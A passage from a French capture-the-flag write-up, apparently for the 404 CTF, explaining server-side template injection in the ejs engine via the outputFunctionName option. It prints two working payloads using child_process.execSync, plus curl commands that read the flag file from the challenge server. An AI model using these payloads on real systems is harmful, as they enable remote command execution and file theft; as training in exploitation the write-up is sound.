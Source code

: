 Pour faire simple, noutre input va directement à la place de `opts.outputFunctionName` et est donct écrit directement dans **la fonction qui va générer le code HTML final à partir de la template**.

Précisément, on voit que l'on écrir dans `this.source` qui est le code-source de la fonction de génération. Deux possibilités :

- on remarque la présence de la fonction `__append(s)` qui a l'air de servir à ajouter du contenu à la page web générée. On peut donc se servir de `__append(s)` pour ajouter l'ouput de nos commandes à la réponse HTTP ;
- on réfléchit et on remarque que, puisque la fonction dans laquelle on écrit sert doit retourner le code final de la page générée, autant l'interrompre et directement retourner ce que l'on veut en mettant un `return` ;
- on veut pas réfléchir et on a remarqué que ejs est verbeux, il va bien nous donner ce qu'on veut à un moment !

> Remarque : en créant le challenge, je n'ai pas pensé à la dernière option, bien pratique puisque certains participants du 404 CTF un peu bourrins ont pu trouver le flag grâce à cela... Bien joué à vous !

On peut maintenant créer un payload / webshell pour avoir le résultat de nos commandes dans la réponse HTTP. Il suffit d'un ou deux `ls` et un `cat` pour trouver et récupérer le flag.

#### Avec \_\_append(s)

```js
x;
__append(
  process.mainModule
    .require("child_process")
    .execSync("cat ./flag/flag.txt")
    .toString()
);
s;
```

donc

```bash
curl -X POST -d "url=https://hackademint.org" -d "settings[view options][outputFunctionName]=x;__append(process.mainModule.require('child_process').execSync('cat ./flag/flag.txt').toString());s" "https://chanson-d-inde.challenges.404ctf.fr/scene"
```

#### Avec return

```js
x;
return global.process.mainModule.constructor
  ._load("child_process")
  .execSync("cat flag/flag.txt");
s;
```

donc

```bash
curl -X POST -d "url=https://hackademint.org" -d "settings[view options][outputFunctionName]=x;return global.process.mainModule.constructor._load('child_process').execSync('cat flag/flag.txt');s" "https://chanson-d-inde.challenges.404ctf.fr/scene"
```
